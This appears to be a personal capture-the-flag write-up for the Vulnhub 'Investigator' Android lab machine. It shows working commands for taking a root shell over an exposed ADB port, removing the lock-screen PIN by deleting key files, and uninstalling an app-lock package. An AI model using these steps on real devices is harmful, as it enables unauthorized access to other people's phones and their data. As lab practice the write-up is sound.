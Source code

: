 ```yaml
---
title: Vulnhub - Investigator
description: My writeup on Investigator box.
categories:
 - vulnhub
tags: vulnhub android
---
```


![](https://hackersfun.com/wp-content/uploads/2019/03/evil-android.jpg)

Hi all, firstly i didnt want to try this box because i have no idea how to pentest/hack an android box. In real life i don't even use/have a smart phone but then i say to myself it's a great way to learn something new, so let's pwn it!

You can find the machine there > [Investigator](https://www.vulnhub.com/entry/investigator-1,504/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.10
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 01:52 EEST
Nmap scan report for android-25abe18209db8058.zte.com.cn (192.168.1.10)
Host is up (0.00025s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
5555/tcp  open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp  open  http    PHP cli server 5.5 or later
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Welcome To  UnderGround Sector
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)
| ssh-hostkey: 
|   2048 19:e2:9e:6c:c6:8d:af:4e:86:7c:3b:60:91:33:e1:85 (RSA)
|_  521 46:13:43:49:24:88:06:85:6c:75:93:73:b5:1d:8f:28 (ECDSA)
MAC Address: 00:0C:29:37:42:7C (VMware)
Service Info: OSs: Android, Linux; CPE: cpe:/o:linux:linux_kernel
```

port `5555` seems suspicious, i did some research on it and i found a way to exploit it. :)

port `5555` == adb service, adb (Android Debug Bridge) can control your device over USB or wireless by enabling a daemon server at port 5555.

Install adb: `sudo apt-get install adb`

Now let's exploit it, first we need to connect on target:

```
$ adb connect $ip:5555
connected to 192.168.1.10:5555
```

Now let's spawn a shell:

```
$ adb shell
uid=2000(shell) gid=2000(shell) groups=1003(graphics),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats)@x86:/ $ 
```

Bingo! That simple, we can even simplier take a root shell:

```
$ su
uid=0(root) gid=0(root)@x86:/ # 
```

Now because i have no idea how android file system is working, i decided to search for the root directory:

```
uid=0(root) gid=0(root)@x86:/ # find / -type d -name "root"
/data/root
```

We can see a `flag.txt` there:

```
uid=0(root) gid=0(root)@x86:/ # cd /data/root
uid=0(root) gid=0(root)@x86:/data/root # ls
flag.txt
uid=0(root) gid=0(root)@x86:/data/root # cat flag.txt
Great Move !!! 

Itz a easy one right ???

lets make this one lil hard


You flag is not here  !!!     


Agent "S"   Your Secret Key ---------------->259148637
```

Here i stuck, i was searching for the flag for loooot of hours & then i deleted the box i said OK i got root shell i can't find the real flag. Today i had a chat with a friend on this box and we both stuck finding the real flag, i told him that you can remove the pin using adb shell. After some minutes he found the real flag! Shout out to @Freakazoid without him i wasn't able to gain the real flag! :D

Now as you can see, the android box asks for a PIN:

![](https://i.imgur.com/5xnXKzl.png)

We can remove this using our root shell, simply do this:

```
uid=0(root) gid=0(root)@x86:/ # cd /data/system
uid=0(root) gid=0(root)@x86:/data/system # rm *.key
```

& reboot the box, now we can see there is no PIN:

![](https://i.imgur.com/uTqpowJ.png)

If we go to open an app asks for a pattern:

![](https://i.imgur.com/ecarBwa.png)

Probably there is an app in background, that locks the other apps, let's search for it and remove it:

```
$ adb connect $ip:5555                       
connected to 192.168.1.10:5555
$ adb shell su 0 pm list packages | grep lock
package:com.domobile.applockwatcher
package:bong.android.androidlock
package:com.martianmode.applock <---
package:com.android.deskclock
```

`com.martianmode.applock` seems interesting, let's remove it:

```
$ adb uninstall com.martianmode.applock 
Success
```

Now we can see the real flag in messages:

![](https://i.imgur.com/GNjkEeN.png)

I learnt some new stuff, fux box :)
